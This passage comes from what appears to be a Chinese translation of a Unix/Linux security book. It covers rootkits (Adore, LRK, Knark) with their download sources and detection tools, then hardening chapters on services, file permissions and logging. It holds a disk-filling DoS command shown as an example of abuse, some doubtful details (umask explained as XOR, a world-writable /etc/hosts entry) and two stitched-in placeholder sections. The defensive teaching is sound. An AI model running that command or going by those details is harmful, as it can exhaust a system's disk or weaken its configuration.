Adore rootkit 是一组 Linux 内核模块，它允许入侵者隐藏进程、文件和网络设备详细信息。它还包含一个 root shell 后门。Adore 可从 `http://www.team-teso.net/releases.php` 获取。

### Linux Rootkit (LRK)

LRK 是最流行的 Linux rootkit，它包含许多常用命令的木马化二进制文件，包括但不限于：`chfn`, `chsh`, `crontab`, `du`, `find`, `ifconfig`, `inetd`, `killall`, `login`, `ls`, `netstat`, `passwd`, `pidof`, `ps`, `rshd`, `syslogd`, `tcpd`, `top`, `sshd` 和 `su`。它还包含一个嗅探器以及 root shell 后门。LRK 可从 `http://www.packetstormsecurity.org/` 获取。

### Tornkit

Tornkit 由各种特洛伊木马二进制文件、嗅探工具以及自动禁用 `syslogd` 和其他关键服务的工具组成。它可以从 `http://www.packetstormsecurity.org/` 下载。

### Knark

Knark 是一个可以隐藏文件和进程的 rootkit，并且具有重定向命令的能力。它包含一个用于远程执行命令的后门。Knark 可从 `http://www.packetstormsecurity.org/` 获取。

### 检测 Rootkits

可以使用以下工具检测 rootkits 和特洛伊木马：

- Chkrootkit 可用于检查系统中的 rootkits。它可以从 `http://www.chkrootkit.org/` 获取。
- 使用 Tripwire 或 Samhain 来检测被修改的二进制文件。有关 Tripwire 的更多详细信息，请参阅 `http://www.tripwire.com/`。有关 Samhain 的信息可以通过 `http://samhain.sourceforge.net/` 获取。

## 总结

从清理日志文件到安装后门和 rootkits，本章描述的许多技术列举了入侵者为了掩盖其踪迹并确保对受害主机拥有持续 root 访问权限而采取的各种方法。从讨论的话题可以看出，检测高级黑客的存在通常相当困难。因此，虽然本章结束了黑客攻击方法论，但强烈建议您考虑本书第二部分中的建议，以便对您的主机策略和配置进行加固。

### 第二部分：主机加固

- 第 7 章 默认设置与服务
- 第 8 章 用户与文件系统权限
- 第 9 章 日志记录与补丁

# 第 7 章：默认设置与服务

### 本章内容：

- 设置密码策略
- 删除或禁用不必要的账户
- 从 PATH 变量中删除 "."
- 检查 /etc/hosts.equiv 的内容
- 检查 .rhosts 文件
- 禁用堆栈执行
- 使用 TCP Wrappers
- 加固 inetd 和 xinetd 配置
- 加固远程服务
- 总结

大多数 Unix 和 Linux 发行版的默认安装在各种策略、应用程序和服务方面仍有加固空间。本章提供了关于如何加固主机及其常用服务的技巧。

### 设置密码策略

入侵者经常利用弱密码策略来获取用户账户的访问权限。以下是加固密码策略可以采取的一些步骤：

- 确保使用影子密码（shadowed passwords）。检查并确保 `/etc/passwd` 文件中没有密码哈希。密码哈希应仅存在于 `/etc/shadow` 中，且该文件必须仅对 root 可读。
- 编辑密码配置文件 (`/etc/default/passwd`) 或使用 `chage` 工具来更改密码有效期。

### 删除或禁用不必要的账户

检查 `/etc/passwd` 以查看主机上启用的账户。许多服务会创建非特权账户用于执行，例如：ftp, lp, news, gopher, ntp。请通过将其 shell 设置为 `/bin/false` 来确保此类账户被禁用。如果这些账户对应的服务不再使用，请将其卸载并删除账户。

### 从 PATH 变量中删除 "."

当用户执行命令时，命令 shell 会在 PATH 环境变量包含的目录列表中搜索命令的位置。为了防止执行由恶意用户放置在文件系统上的特洛伊木马，请确保 PATH 环境变量永远不包含当前目录 (".")。

检查 `/etc/rc.local`, `/etc/profile`, `/etc/bashrc`, `/etc/csh.cshrc`, `~/.bashrc`, `~/bash_profile`, `~/.cshrc` 和 `~/.login` 等文件，确保 PATH 变量不包含 "."。如果您使用的是 bash 以外的 shell，请检查相应的资源文件。

使用 echo 打印当前用户的 PATH 变量值：

```bash
echo $PATH
```


## 检查 /etc/hosts.equiv 的内容

`/etc/hosts.equiv` 文件包含一份被视为可信的主机名和用户列表。诸如 `rlogin`、`rsh`、`rcp` 和 `rcpmd` 等服务使用此文件来确定可信实体。检查此文件以确保其中仅包含可信的主机名和用户。如果没有需要信任的远程主机或用户，请考虑删除此文件。

## 检查 .rhosts 文件

检查文件系统中是否存在 `.rhosts` 文件。存在于此文件中的主机名和用户名允许通过 `rlogin` 等 r-服务在不指定密码的情况下登录。使用 `find` 命令来检查 `.rhosts`：

```
find / -name .rhosts -type f -print 2 > /dev/null
```

## 禁用栈执行

禁用栈执行可以防止某些类型的缓冲区溢出情况。如果使用 Solaris，请编辑 `/etc/system` 并添加以下行：

```
set noexec_user_stack=1
set noexec_usr_stack_log=1
```

对于非 Solaris 发行版，可以使用以下产品：

- StackGuard: http://www.immunix.org/stackguard.html
- Libsafe: http://research.avayalabs.com/project/libsafe/
- StackGhost: http://stackghost.cerias.purdue.edu/
- Openwall: http://www.openwall.com/linux

## 使用 TCP Wrappers

TCP Wrappers 允许对网络服务的传入请求进行监控和过滤。大多数发行版默认安装了 TCP Wrappers，但如果您需要，可以在 ftp://ftp.porcupine.org/pub/security/index.html 获取。

在安装了 TCP Wrappers 的主机上，编辑 `/etc/hosts.allow` 并确保以下行是第一个未被注释的语句：

```
ALL:ALL:deny
```

同时，确保默认拒绝所有主机的连接。这可以通过在 `/etc/hosts.deny` 中放置以下条目来实现：

```
all:all
```

通过在 `/etc/hosts.allow` 中放置相应的条目，仅允许可信主机连接到服务。详细说明请参阅 **http://www.cert.org/security-improvement/implementations/i041.07.html**。

## 强化 inetd 和 xinetd 配置

Internet 服务守护进程 `inetd` 用于启动提供网络服务的守护进程。它监听所有必需的端口，并在收到传入网络连接时立即启动相应的守护进程。因此，`inetd` 通常被称为“超级服务器”。`xinetd` 守护进程与 `inetd` 类似，但包含更多的功能，因此 `inetd` 用户应强烈考虑升级到 `xinetd`。

### 禁用不必要的服务

如果使用 `inetd`，请编辑 `inetd.conf` 文件并确保不必要的服务已被禁用。例如，考虑 `inetd.conf` 中负责 FTP 守护进程的以下行：

```
ftp stream tcp nowait root /usr/local/etc/tcpd /usr/local/etc/ftpd
```

为了在 `inetd` 中禁用 FTP，请在该行前面放置一个 `#`：

```
#ftp stream tcp nowait root /usr/local/etc/tcpd /usr/local/etc/ftpd
```

重启 `inetd` 使更改生效：

```
killall -HUP inetd
```

如果使用 `xinetd`，请编辑 `xinetd.d` 目录中相应的服务文件，并确保存在 `disable = yes` 这一行。

> 许多服务独立于 `inetd` 和 `xinetd` 运行。通过编辑或删除 `/etc/rc.d/` 目录中相应的脚本，禁用不必要服务的启动。

### 如果没有启用任何服务，则禁用 inetd 或 xinetd

如果所有 `inetd` 或 `xinetd` 服务都已禁用，则无需让 `inetd` 或 `xinetd` 继续运行。要停止 `inetd` 或 `xinetd` 在启动时执行，请禁用 `/etc/rc.d` 和 `/etc/rc.local` 中的相应文件。

### 确保开启日志记录

如果运行 `inetd`，请编辑 `inetdsv` 文件并确保 `inetd` 在调用时带有 `-t` 标志。对于 `xinetd`，请编辑 `xinetd.conf` 文件并确保存在以下行：

```
log_type = SYSLOG authpriv
```

此外，编辑 `syslog.conf` 并确保开启了 `*.info`，以便记录到 `/var/log/messages`。

## 强化远程服务

本节提供了在 Unix 和 Linux 主机上使用的一些常见远程服务的强化建议。使用 `netstat` 查找在 TCP 和 UDP 端口上监听的进程：

```
[bash]# netstat -nap
Proto Local Address Foreign Address State PID/name
tcp . 0 0.0.0.0:139 0.0.0.0:* LISTEN 1251/smbd
tcp 0 0.0.0.0:6000 0.0.0.0:* LISTEN 11228/X
tcp 0 0.0.0.0:80 0.0.0.0:* LISTEN 2047/httpd
tcp 0 0.0.0.0:113 0.0.0.0:* LISTEN 728/identd
tcp 0 0.0.0.0:22 0.0.0.0:* LISTEN 750/sshd
udp 0 0.0.0.0:512 0.0.0.0:* 14059/xinetd
[...]
```

### WU-FTPD

FTP（文件传输协议）是一种在主机之间传输文件的协议。WU-FTPD 是 Unix 和 Linux 上最广泛使用的 FTP 守护进程。可以通过 http://www.wu-ftpd.org/ 获取。采取以下步骤来强化 WU-FTPD：

- 修改服务器横幅。编辑 `/etc/ftpaccess` 并使用 `greeting` 指令指定新横幅。例如：
  `greeting text No banner information available. Sorry.`
- 确保 `/etc/ftpusers` 包含一份不允许通过 FTP 登录的用户列表。诸如 `root`、`bin` 和 `httpd` 等用户不应被允许通过 FTP 登录。
- 编辑 `inetd.conf` 或 `/etc/xinetd.d/ftp` 并确保 `in.ftpd` 在调用时带有 `-l` 标志。这将启用日志记录。
- 如果允许匿名上传，上传的文件必须不可见，且应禁止下载上传的文件。否则，您的 FTP 服务器可能会被软件盗版者滥用。详见 http://www.wu-ftpd.org/HOWTO/upload.configuration.HOWTO。
- 使用 chrooted FTP 环境，尤其是对于匿名访问。有关如何设置此环境的详细说明，请参阅 http://www.wu-ftpd.org/HOWTO/guest.HOWTO。

考虑使用 ProFTPD 替代 WU-FTPD，因为它证明其对远程漏洞的易感性不像 WU-FTPD 那么高。ProFTPD 可在 http://www.proftpd.org/ 获取。

### SSH

SSH 是一种安全的数据交换协议。它可以用于登录远程机器、远程执行命令和传输文件。由于 SSH 内部通信是加密的，它是 `telnet`、`rlogin` 和 `FTP` 等远程登录方案的理想替代品。采取以下措施强化 SSH：

- 确保禁用 SSH 协议版本 1。`sshd_config` 文件必须包含以下行：
  `Protocol 2`
- 不应允许 `root` 用户通过 SSH 登录。确保 `sshd_config` 中存在以下行：
  `PermitRootLogin no`
- 私钥文件（如 `ssh_host_key`、`ssh_host_dsa_key` 和 `ssh_host_rsa_key`）应仅对 `root` 可读。
- 确保开启权限分离（Privilege Separation）。`sshd_config` 中必须存在以下行：
  `UsePrivilegeSeparation yes`

### Sendmail

Sendmail 是互联网上最受欢迎的 MTA（邮件传输代理）。要强化 Sendmail，请确保采取以下措施：

- 修改 SMTP 欢迎消息。编辑 `sendmail.cf` 文件并更改 `SmtpGreetingMessage` 的值以反映新的横幅。或者，您可以编辑 `sendmail.mc` 并将 `confSMTP_LOGIN_MSG` 的值设置为新的欢迎语。

- `EXPN` 和 `VRFY` 是 SMTP 协议支持的两个命令，允许枚举用户名。您应该通过编辑 `sendmail.cf` 并确保 `PrivacyOptions` 设置为 `authwarnings, noexpn, novrfy, restrictgrun` 来关闭它们。或者，您可以编辑 `sendmail.mc` 文件并确保存在以下行：
  `define('confPRIVACY_FLAGS', 'authwarnings, noexpn, novrfy, restrictgrun')dnl`
  还可以设置其他标志，如 `goaway`、`restrictmailq`、`restrictgrun` 和 `nobodyreturn`。详情请参阅 Sendmail 文档。

- 使用 `smrsh` 作为 MDA（邮件投递代理）。`smrsh` 程序是 `sh` 的替代品；它限制了可以使用 Sendmail 的 “| command” 语法运行的命令。要启用 `smrsh`，请确保 `sendmail.mc` 中存在以下行：
  `FEATURE('smrsh', '/path/to/smrsh')dnl`

- 确保以下文件和目录具有适当的权限：

| 文件或目录 | 用户 | 组 | 权限 |
| :--- | :--- | :--- | :--- |
| /etc/aliases | root | root | -rw-r--r-- |
| /etc/mail | root | root | drwxr-xr-x |
| /var/spool/mail | root | mail | drwxrwxr-x |
| /var/spool/mqueue | root | mail | drwxr-xr-x |

- 检查 `/etc/mail/access` 的内容。此文件包含允许通过 Sendmail 服务器进行中继的主机名。不要在此文件中放置不可信的主机名。

- 对最大允许的电子邮件大小设置限制。这可以通过在 `sendmail.mc` 中设置 `confMAX_MESSAGE_SIZE` 的值来实现，例如：
  `define('confMAX_MESSAGE_SIZE', '1048576')dnl`
  或者，编辑 `sendmail.cf` 文件并将 `MaxMessageSize` 的值更改为适当的值。

- 众所周知，Sendmail 易受许多远程可利用漏洞的影响。考虑使用 `qmail` 作为替代品。

用于 Sendmail。qmail 程序可以从 http://cr.yp.to/qmail.html 获取。

> Sendmail.mc 是一个宏配置。如果对该文件进行了更改，必须通过以下命令生成一个新的 sendmail.cf 文件：

`m4 /etc/mail/sendmail.mc > /etc/sendmail.cf`

这将生成一个更新后的 sendmail.cf 文件。重启 Sendmail 使更改生效。

## BIND (DNS)

DNS（域名系统）是一种用于在域名和 IP 地址之间进行转换的协议。BIND (Berkeley Internet Name Domain) 是互联网上最广泛使用的 DNS 服务器。采取以下措施来加固 BIND：

- 编辑 BIND 配置文件 named.conf，并覆盖版本号：
  ```
  options {
      version "Not available";
  };
  ```
- 限制区域传输（zone transfers）。使用 `allow-transfer` 指令来指定允许执行区域传输的主机：
  ```
  options {
      allow-transfer { ip_address; };
  };
  ```
  此外，考虑使用 TSIG (Transaction Signatures) 来通过加密方式交换区域数据。
- 关闭递归查询。这将防止您的 DNS 服务器容易受到欺骗攻击：
  ```
  options {
      fetch-glue no;
      recursion no;
  };
  ```
- 在 chrooted 环境中运行 BIND。详情请参阅 http://www.homeport.org/~adam/dns.html 和 http://www.etherboy.com/dns/chrootdns.html。
- 限制动态更新，因为此功能允许远程实体删除和添加记录。默认情况下，BIND 不允许动态更新。它只能通过使用 `allow-update` 语句来启用，因此请谨慎使用此选项。

## Apache (HTTP 和 HTTPS)

Apache 是目前最流行的 Web 服务器。可以采取以下步骤来加固 Apache 服务器配置：

- 更改您的 HTTP 标志（banner）。编辑 httpd.conf 文件并确保存在以下指令：
  `ServerSignature Off`
  `ServerTokens Prod`

  禁用 `ServerSignature` 令牌会指示 Apache 在显示 404 (Not Found) 等错误页面时不打印版本信息。当 `ServerTokens` 指令设置为 `Prod` 时，指示 Apache 在标志中仅显示 "Server: Apache"。如果您不想在 Server 标签中显示 "Apache"，而想显示伪造信息（如 "Server: Not-allowed"），则需要：
  1. 下载 Apache 源代码。
  2. 编辑 httpd.h 文件，将以下行中的字符串 "Apache" 的值
     `#define SERVER_BASEPRODUCT "Apache"`
     更改为其他内容：
     `#define SERVER_BASEPRODUCT "Not-allowed"`
  3. 重新编译、重新安装并重启 Apache。

- 关闭自动索引。这将指示 Apache 在不存在默认索引文件（如 index.html）时不提供目录列表。在 httpd.conf 中使用 `IndexIgnore` 指令来实现此操作。

- 配置 Apache 不提供敏感文件，如 `.htaccess`、`.htpasswd`、`*.inc`、`*.jsp`、`*.java` 或 `*.php`。例如，在 httpd.conf 中使用以下指令来限制 Apache 提供以 `.ht` 开头的文件名：
  ```
  <Files ~ "^\\.ht">
      Order allow,deny
      Deny from all
  </Files>
  ```

- 删除默认的手册页。

- 删除默认的及示例的 CGI 脚本和应用程序。

- 考虑使用 djbdns 代替 BIND。djbdns 服务器可在 http://cr.yp.to/djbdns.html 获取。

- 使用 `AccessFilename` 指令来设置 Apache 用于访问控制的文件名。这通常设置为 `.htaccess`。
- 考虑在 chrooted 环境中运行 Apache。详细指令请参阅 `http://hoohoo.ncuia.uiuc.edu/docs/tutorials/chroot.html`。
- 确保 Apache 设置为在非 root 权限下运行。查看 httpd.conf 中的 `User` 和 `Group` 设置，确保它们被设置为非 root 账户（如 apache 或 httpd）。
- 使用 `ErrorLog`、`CustomLog`、`LogLevel` 和 `LogFormat` 指令启用日志记录。确保在 httpd.conf 中正确设置这些指令。
- 禁用不需要的模块。在 httpd.conf 中注释掉相应的 `AddModule` 和 `LoadModule` 指令行。

## Samba

Samba 使用 SMB (Server Message Block) 协议在网络上共享文件和打印机。按照以下步骤加固 Samba 服务器配置：

- 更改服务器字符串。编辑 smb.conf 并将 `server string = Samba Server` 更改为其他内容：
  `server string = no information`
  这将更改显示在每个共享名称旁边的描述字段。

  为了更改实际的 Samba 版本信息，请编辑 source/include/version.h 文件并将常量 `VERSION` 的值更改为其他内容。您必须重新编译并重新安装 Samba 才能使更改生效。
- 编辑 smb.conf 并设置 `hosts allow` 选项的值，以限制允许连接到您服务器的主机。
- 使用密码加密。在 smb.conf 中将 `encrypt passwords` 的值设置为 yes。更多信息请参阅 `http://us1.samba.org/samba/ftp/docs/textdocs/ENCRYPTION.txt`。
- 如果您有多个网卡，可以指示 Samba 仅监听一个特定的接口。在 smb.conf 中使用 `interfaces` 选项来指定 Samba 必须监听的接口。
- 研究 smb.conf 文件，确保存储关键信息的共享未被授予访客访问权限。

## NFS

NFS (Network File System) 是一种文件系统协议，提供跨网络对共享文件的远程访问。以下是加固 NFS 服务器配置的一些步骤：

- 将文件系统导出为只读。考虑不要赋予写入权限。在 `/etc/exports` 或 `/etc/dfs/sharetab` 中使用 `ro` 选项来指定只读共享。示例：
  `/share nfsclient_ip(ro)`

- 防止非 root 用户挂载 NFS 共享。为此，请编辑 `/etc/exports` 或 `/etc/dfs/sharetab` 并确保存在 `(secure)` 选项。例如：
  `/share nfsclient_ip(secure)`

- 不允许远程用户以 root 权限挂载 NFS 共享。否则，他们将能够修改 NFS 共享上 root 所有的文件。在 `/etc/exports` 或 `/etc/dfs/sharetab` 中使用 `root_squash` 选项来防止这种情况。

- NFS 客户端必须配置为不在挂载的共享上运行 setuid 程序。否则，恶意或被攻破的 NFS 服务器可能会在导出的共享上放置 root setuid 特洛伊文件，这些文件将在客户端以 root 身份执行。在挂载 NFS 共享时使用 `nosuid` 选项。如果可能，还应考虑使用 `noexec` 选项，该选项禁止在 NFS 客户端执行二进制文件。

## 总结

尽可能加固系统配置至关重要。必须严格执行密码策略以确保使用强密码，并且如果不使用不必要的服务应将其禁用。此外，应禁用栈执行以防止多种形式的缓冲区溢出攻击。诸如 `.rhosts` 和 `/etc/hosts.equiv` 之类的文件必须定期审计，如果未使用则应删除。PATH 变量不应包含 "."，以防止特洛伊执行文件。强烈建议采取本章描述的加固步骤，以确保远程服务的安全配置。

## 文档标题

这是一段正文内容，详细描述了文档的核心观点和背景信息。文本分布在页面的上半部分，采用了标准的段落布局。

接下来的段落继续阐述相关细节，探讨了具体的方法论和实施步骤，确保读者能够理解整个流程的逻辑结构。

这里是一段较长的分析段落，包含了对数据的解读以及对潜在风险的评估。文字密集，占据了页面的中段位置。

最后一段总结了前文的所有要点，并提出了未来的改进方向和结论。该段落位于页面的下半部分。

# 第 8 章

## 用户和文件系统权限

### 本章内容：

- 文件权限：快速教程
- 全球可读文件
- 全球可写文件
- 由 bin 和 sys 拥有的文件
- umask 值
- 重要文件
- /dev 中的文件
- 磁盘分区
- setuid 和 setgid 文件
- 实现 wheel 组
- Sudo
- 总结

## 文件权限：快速教程

使用带有 `-l` 标志的 `ls` 命令来检查文件权限。例如，让我们检查分配给 `/usr/sbin/id` 命令的文件权限：

```
[bash] # ls -l /usr/bin/id
-rwxr-xr-x 1 root root 13864 Apr 8 2002 /usr/bin/id
```

上述输出的第一列描述了相关的文件权限。第一个字符被设置为连字符 (-)，表示 `/usr/bin/id` 是一个文件。如果它是一个目录，该字符将被设置为 `d`。接下来的三个字符 (`rwx`) 代表文件所有者的权限，在本例中，如上述输出的第三列所示，所有者是 root。接下来的三个字符 (`r-x`) 代表与该文件关联的组的权限，在本例中，如输出的第四列所示，该组也是 root。最后三个字符 (`r-x`) 代表与所有其他用户（即所有人）相关联的权限。

字符 `r` 表示读取权限，而字符 `w` 和 `x` 分别表示写入和执行权限。当分配 setuid 或 setgid 权限时，字符 `s` 会替换 `x`。如果 root 用户为目录开启了粘滞位 (sticky bit)，最后一个字符 (`x`) 将被替换为 `t`。当粘滞位开启时，所有用户对该目录都具有读取和写入权限，但只能访问他们自己拥有的文件。因此，请注意 `/tmp` 目录开启了粘滞位。

使用 `chmod` 命令更改文件的权限。假设我们有一个名为 “perm” 的文件：

```
[bash] # ls -l perm
-rw-rw-r-- 1 root root 0 Apr 5 22:40 perm
```

上述列表显示用户 root 和组 root 具有对该文件的读写权限。所有其他用户只能读取该文件。如果我们想更改 perm 的文件权限，使得 root 用户 (u) 也可以执行 (x) 该文件，我们需要如下执行 `chmod`：

```
chmod u+x perm
```


类似地，假设我们想要撤销组 (g) 的读取 (r) 和写入 (w) 权限：

```
chmod g-rw perm
```

以下是我们撤销所有其他 (o) 用户的读取 (r) 权限的方法：

```
chmod o-r perm
```

也可以在执行 `chmod` 时同时应用上述三种文件权限更改：

```
chmod u+x,g-rw,o-r perm
```

Unix 和 Linux 的文件权限也可以用数字形式表示。这是通过将每组权限（用户、组和其他）分解为表示一个八进制数来实现的。为了方便起见，这里列出了八种可能的八进制值：

| 数值 | 权限 | 数值 | 权限 |
|---|---|---|---|
| 0 | --- | 4 | r-- |
| 1 | --x | 5 | r-x |
| 2 | -w- | 6 | rw- |
| 3 | -wx | 7 | rwx |

因此，要为文件设置 `rwxr-xr-x` 权限，可以使用如下方式调用 `chmod` 命令：

```
chmod 755 perm
```

要添加 setuid 权限，在结果值中加上 4000。添加 setgid 权限则加上 2000。要同时设置 setuid 和 setgid 权限，则加上 6000。例如，要为文件所有者设置 setuid 权限以及读写权限，请按如下方式执行 `chmod`：

```
chmod 4600 perm
```

## 全球可读文件 (WORLD-READABLE FILES)

定期审计全球可读文件是一个好习惯。恶意用户经常搜索包含关键信息的全球可读文件，这些信息可能有助于他们实现权限提升。

使用 `find` 命令搜索全球可读文件：

```
find /etc -type f -perm -4 -print 2> /dev/null
```

## 全球可写文件 (WORLD-WRITABLE FILES)

全球可写文件可能会被恶意用户利用以获取 root 权限。考虑一个被设置为所有人可写的 setuid 可执行脚本。恶意用户可能会编辑这样一个脚本，从而以 root 身份执行任何命令。

使用 `find` 命令搜索全球可写文件：

```bash
find / -type f -perm -2 -print 2> /dev/null
```

## 由 bin 和 sys 拥有的文件 (FILES OWNED BY bin AND sys)

某些发行版错误地将可执行文件的所有者分配给非 root 用户，如 “bin” 和 “sys”。

例如，假设 `/usr/bin/in.telnetd` 由用户 “bin” 拥有并可写。如果入侵者成功以 “bin” 用户的权限挂载服务器的 NFS `/usr/bin` 共享，他或她将被允许将 `/usr/bin/in.telnetd` 替换为一个特洛伊木马，每当接收到传入的 telnet 连接时，该木马将由 inetd 或 xinetd 以 root 权限执行。

要检查由 “bin” 拥有的文件，请运行以下命令：

```bash
find / -user bin -print 2> /dev/null
```

同样，使用以下命令检查由 “sys” 拥有的文件：

```bash
find / -user sys -print 2> /dev/null
```

## umask 值 (THE umask VALUE)

每次创建新文件或目录时，都会被赋予由 “umask” 值指定的默认权限。使用 `umask` 命令来查询当前用户的 umask 值：

```bash
[bash]$ umask -p
umask 0002
```

umask 的值是通过将文件权限八进制值与 666（针对文件）或 777（针对目录）进行 XOR（异或）运算确定的。对于文件，请注意 umask 值不允许设置执行 (x) 权限。

XOR 代表 “异或”。以下是 XOR 的真值表：

| XOR | 0 | 1 |
|---|---|---|
| 0 | 0 | 1 |
| 1 | 1 | 0 |

假设我们希望 umask 值指示文件所有者具有读写权限，而组或其他用户没有任何权限。此外，假设我们希望目录的 umask 包含执行 (x) 权限。如果一个目录没有执行 (x) 权限，则无法使用 `cd`（切换目录）进入其中。在这种设置下，文件权限值为 700，将其分解为八进制位则表示为：

```
111 000 000
```

使用前面的表格，让我们将此值与 777 进行 XOR 运算，以获得相应的 umask 值：

```
111 000 000 : 700
111 111 111 : 777
XOR: 000 111 111 : 077
```

使用 `umask` 命令设置新的 umask 值：

```
umask 077
```

推荐的 umask 值为 077。这将导致每个新创建的文件或目录仅能由其所有者读取和写入。请注意，umask 值是三组八进制数，即三组 8 位。由编译器创建的文件通常遵循 umask 值（除了 x 位）。

## 重要文件 (IMPORTANT FILES)

确保以下文件已被分配适当的权限：

| 文件名 | 用户 | 组 | 权限 |
| :--- | :--- | :--- | :--- |
| /bin | root | root | drwxr-xr-x |
| /etc | root | root | drwxr-xr-x |
| /etc/aliases | root | root | -rw-r--r-- |
| /etc/default/login | root | root | -rw------- |
| /etc/exports | root | root | -rw-r--r-- |
| /etc/hosts | root | root | -rw-rw-rw- |
| /etc/hosts.allow | root | root | -rw------- |
| /etc/hosts.deny | root | root | -rw------- |
| /etc/hosts.equiv | root | root | -rw------- |
| /etc/hosts.lpd | root | root | -rw------- |
| /etc/inetd.conf | root | root | -rw------- |
| /etc/issue | root | root | -rw-r--r-- |
| /etc/login.access | root | root | -rw------- |
| /etc/login.conf | root | root | -rw------- |
| /etc/login.defs | root | root | -rw------- |
| /etc/motd | root | root | -rw-r--r-- |
| /etc/mtab | root | root | -rw-r--r-- |
| /etc/netgroup | root | root | -rw------- |
| /etc/passwd | root | root | -rw-r--r-- |
| /etc/rc.d | root | root | drwx------ |
| /etc/rc.local | root | root | -rw------- |
| /etc/rc.sysinit | root | root | -rw------- |
| /etc/security | root | root | -rw------- |
| /etc/services | root | root | -rw-r--r-- |
| /etc/shadow | root | root | -r-------- |
| /etc/ssh/ssh_host_key | root | root | -rw------- |
| /etc/ssh/sshd_config | root | root | -rw------- |
| /etc/ssh/ssh_host_dsa_key | root | root | -rw------- |
| /etc/ssh/ssh_host_key | root | root | -rw------- |
| /etc/ssh/ssh_host_rsa_key | root | root | -rw------- |
| /etc/ttys | root | root | -rw------- |
| /root | root | root | drwx------ |
| /sbin | root | root | drwxr-xr-x |
| /tmp | root | root | drwxrwxrwt |
| /usr/bin | root | root | drwxr-xr-x |
| /usr/etc | root | root | drwxr-xr-x |
| /usr/sbin | root | root | drwxr-xr-x |
| /var/log | root | root | drwxr-xr-x |
| /var/log/authlog* | root | root | -rw------- |
| /var/log/boot* | root | root | -rw------- |
| /var/log/cron* | root | root | -rw------- |
| /var/log/dmesg | root | root | -rw------- |
| /var/log/lastlog | root | root | -rw------- |
| /var/log/maillog* | root | root | -rw------- |
| /var/log/messages* | root | root | -rw------- |
| /var/log/secure* | root | root | -rw------- |
| /var/log/spooler* | root | root | -rw------- |
| /var/log/syslog* | root | root | -rw------- |
| /var/log/utmp* | root | utmp | -rw-rw-rw- |
| /var/log/wtmp* | root | utmp | -rw-rw-rw- |
| /var/log/xferlog | root | root | -rw------- |
| /var/run | root | root | drwxr-xr-x |
| /var/run/*.pid | root | root | -rw-r--r- |
| | user | user | -rw-rw-rw- |
| /var/spool/cron | root | root | drwx------ |
| /var/spool/cron/crontabs/root | root | root | -rw------- |
| /var/spool/mail | root | mail | drwxrwxr-x |
| /var/spool/mail/* | user | user | -rw-rw-rw- |
| /var/tmp | root | root | drwxrwxrwt |

前表列出的一些文件可能不适用于所有发行版。此外，某些文件可能存在于不同的目录中。使用 `find` 命令来定位它们：`find / -type f -name filename -print 2 > /dev/null`。

## /dev 目录下的文件 (FILES IN /dev)

设备由 `/dev` 目录中的特殊文件表示，必须为这些文件设置适当的文件权限。考虑 `/dev/hda*`，它在 Linux 中代表 IDE 磁盘。如果这些文件是对全球可读的，恶意用户将拥有读取磁盘上所有数据的权限！使用 `mount` 命令来查找系统中与挂载驱动器关联的 `/dev` 文件。

此外，确保为其他设备文件设置正确权限，例如 `/dev/console`、`/dev/tty/*`、`/dev/pty*`、`/dev/audio` 和 `/dev/dsp*`。

## 磁盘分区 (DISK PARTITIONS)

恶意用户可能会通过消耗所有可用磁盘空间来发起拒绝服务攻击。考虑以下命令：

```bash
[bash]$ cat /dev/zero > /tmp/zero
^C
```


之前的命令将导致创建一个新文件 `/tmp/zero`。除非用户通过按下 `CTRL-C` 中断该命令，否则该文件的大小将持续增加。文件 `/dev/zero` 是一个特殊的、无止境的包含零的文件。通过让之前的命令运行一段时间，恶意用户可能会耗尽磁盘上的所有空间。这可能会导致不良结果不理想，因为许多运行中的程序需要并依赖可用的磁盘空间才能正常工作。

建议将以下目录挂载在单独的分区中：

- /boot
- /home(s)
- /tmp
- /var

此外，在挂载 `/var` 和 `/tmp` 分区时，请考虑使用 `nodev`、`nosuid` 和 `noexec` 选项。

## setuid 和 setgid 文件

检查设置了 setuid 和 setgid 位的文件，因为此类文件将以所有者的权限执行。root 拥有的 setuid 和 setgid 文件中的漏洞可能会导致 root 权限被窃取。如果可能，请考虑移除文件的 setuid 和 setgid 位。

要查找 setuid 文件，请运行：

```bash
find / -perm -4000 -type f -print 2> /dev/null
```

要查找 setgid 文件，请运行：

```bash
find / -perm -2000 -type f -print 2> /dev/null
```

## 实现 wheel 组

使用 wheel 组来限制对 `su` 等 setuid 程序的访问。如果该组不存在，请使用 `groupadd` 命令创建它。更改 `su` 的权限，使得只有 wheel 组中的用户可以执行它：

```bash
chgrp wheel `which su`
chmod u+s,o-rwx,u+rwx,g+rx `which su`
```

## SUDO

Sudo 是一个免费软件工具，允许获得授权的用户以 root 权限执行命令。如果多个人员需要执行特权操作，设置 Sudo 为他们提供特定权限是一个好主意。这比共享 root 密码要好。Sudo 通常捆绑在大多数发行版中，但也可以在 `http://www.sudo.ws/sudo/` 获取。请参阅 `http://www.onlamp.com/pub/a/bsd/2002/08/29/Big_Scary_Daemons.html` 以获取关于如何设置和配置 Sudo 的说明和示例。

## 总结

理解并执行正确的文件权限至关重要。除了由 bin 和 sys 等系统账户拥有的文件外，必须定期审计全球可读和可写的文件。umask 值应设置为尽可能严格。必须对重要的配置文件进行审计，以确保权限正确。必须为 /tmp 和 /var 等目录创建磁盘分区，以防止拒绝服务攻击。只要有可能，应使用 wheel 组来限制对 setuid 程序等可执行文件的访问。使用 Sudo 以允许用户以超级用户权限执行文件也是一个好主意，这比共享 root 密码要好得多。

## 文档标题

这里是文档的正文内容，包含详细的描述和分析。文本在页面中分布均匀，形成了完整的段落结构。

接下来的部分继续阐述相关理论，通过对数据的分析得出结论，并为后续的讨论打下基础。

- 关键点一：描述第一个重要项
- 关键点二：描述第二个重要项
- 关键点三：描述第三个重要项


图表下方是对插图的详细解释，说明了图像中各元素的含义以及它们之间的逻辑关系。

## 第 9 章

### 日志记录与补丁

#### 本章内容：

- 日志记录
- 补丁
- 总结

本章描述了最常见的系统事件日志记录方法；随后的章节涵盖了特定的日志文件及其包含的信息。对于每位系统管理员来说，理解不同的事件以及它们在何处被记录至关重要。如果没有这些信息，系统管理员将无法得知主机上正在发生什么样的事件和活动。

除了日志记录，另一个重要问题是软件更新。每天都会公布软件漏洞并发布相应的利用代码。大多数情况下，此类漏洞由软件供应商以补丁或软件更新的形式修复。本章提供了获取此类软件补丁的资源。

## 日志记录

本节描述了特定的日志文件及其包含的信息。此外，还讨论了 /var 的磁盘空间和日志轮转等问题。作为管理员，请务必理解本节中呈现的信息，以便检测异常的系统活动和行为。

### 日志文件

以下是一些常见的日志文件以及通常记录在其中的信息。养成定期检查这些文件的习惯是一个好主意。

